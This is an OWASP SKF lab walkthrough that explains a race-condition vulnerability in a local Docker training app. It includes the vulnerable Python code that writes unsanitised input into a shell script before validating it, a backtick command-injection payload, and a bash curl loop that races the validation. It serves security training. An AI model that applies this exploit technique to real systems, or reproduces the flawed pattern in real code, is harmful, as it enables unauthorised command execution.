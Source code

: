 # KBID XXX - Race Condition

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step1

{% hint style="success" %}
 Congratulations, you won the race
{% endhint %} 

![](.gitbook/assets/race1.png)


All you need to do now is to add your name to the board and get your price. 

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](.gitbook/assets/race2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](.gitbook/assets/race3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it? 

If we look at the code we see that there are 4 functions being used:

1. `boot_validate(person)` 

	the function receives the username in input and executes the following:
	
	* deletes `"` and `\` from the username
	* opens `hello.sh` file
	* writes a command in it 
	* closes the file
	* logs some useful info 
	* checks if the username is in the format `[A-Za-z0-9 ]*`
	* returns the username if the regex succedes

2. `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `boot_run()` executes the `hello.sh` file

4. `boot_reset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

* a GET request is issued to validate the username and call `boot_validate(person)`

```text
GET /?person=test&action=validate
```

* clicking boot, will generate the request to execute the `boot_run()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file. 

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python

def boot_validate(person):
	#person = person.replace('"',"").replace("\\","")
	bootfile = open("hello.sh","w")
	bootfile.write("echo \"" + person + "\" > hello.txt")
	bootfile.close()

	os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
	valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
	os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")
	
	return valid

```

{% hint style="success" %}
 	Everything works fine, so where is the problem?
{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called



## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using  '`' backtick. 

So our payload will be:

```
`id`

```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us: 

```sh
#!/bin/bash
while true; do 

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done

```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate 
```

If we look in the logs we will see:


![](.gitbook/assets/race4.png)

{% hint style="success" %}
 Congratulations, you won the race for real now!!!!!!!!
{% endhint %} 

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}

